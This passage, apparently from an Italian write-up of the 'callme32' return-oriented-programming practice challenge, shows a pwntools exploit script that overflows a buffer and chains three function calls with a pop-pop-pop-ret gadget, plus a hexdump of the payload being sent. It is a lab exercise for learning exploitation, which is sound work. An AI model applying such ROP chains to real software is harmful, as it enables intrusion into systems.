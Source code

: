 ```python
callme_two
pop esi; pop edi; pop ebp; ret;
paramas
-------------------------------------------
callme_three
pop esi; pop edi; pop ebp; ret;
params
-------------------------------------------
exit
0
"""

# @plt
callme_one=0x080484f0
callme_two=0x08048550
callme_three=0x080484e0

# @usefulFunction: call exit
call_exit=0x0804878d

# $ ropper --file=callme32 --search pop
pop_params_ret=0x080487f9

padding='A'*44

payload=flat([
    padding.encode(),
    callme_one, pop_params_ret,
    param1, param2, param3,
    callme_two, pop_params_ret,
    param1, param2, param3,
    callme_three, pop_params_ret,
    param1, param2, param3,
    call_exit,
    0
    ])

### Send the payload ###

io=process([exe])
io.sendline(payload)
io.recvall()
io.close()

```

Di seguito il risultato dell'*exploit* lanciato:

```bash
$ python3 exploit.py 
[+] Starting local process './callme32': pid 7174
[DEBUG] Sent 0x71 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f0 84 04 08  │AAAA│AAAA│AAAA│····│
    00000030  f9 87 04 08  ef be ad de  be ba fe ca  0d f0 0d d0  │····│····│····│····│
    00000040  50 85 04 08  f9 87 04 08  ef be ad de  be ba fe ca  │P···│····│····│····│
    00000050  0d f0 0d d0  e0 84 04 08  f9 87 04 08  ef be ad de  │····│····│····│····│
    00000060  be ba fe ca  0d f0 0d d0  8d 87 04 08  00 00 00 00  │····│····│····│····│
    00000070  0a                                                  │·│
    00000071
[+] Receiving all data: Done (169B)
[*] Process './callme32' stopped with exit code 0 (pid 7174)
[DEBUG] Received 0xa9 bytes:
```